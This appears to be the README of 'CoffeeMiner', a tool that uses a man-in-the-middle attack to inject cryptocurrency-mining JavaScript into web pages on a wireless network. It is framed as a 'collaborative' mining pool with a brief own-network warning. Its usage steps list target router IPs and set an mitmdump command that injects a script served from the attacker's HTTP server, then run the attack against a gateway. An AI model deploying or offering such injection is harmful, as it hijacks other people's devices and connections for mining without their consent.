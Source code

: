 # CoffeeMiner

Collaborative (mitm) cryptocurrency mining pool for your wireless networks

**Warning: Don't use this project explicitly. Please only ntegrate on your own networks!**

## Concept
- Creating a mining algo to run on your Lan network, and use your router to mine while you aren't using your internet

## Use
- install.sh
```
bash install.sh
```
- edit routersip.txt with one IP per line
- edit coffeeMiner.py, line 28, with the coffeeMiner httpserver IP:
```py
os.system("~/.local/bin/mitmdump -s 'injector.py http://10.0.2.20:8000/script.js' -T")
```
- execute coffeeMiner.py
```
python3 coffeeMiner.py ipgateway
```
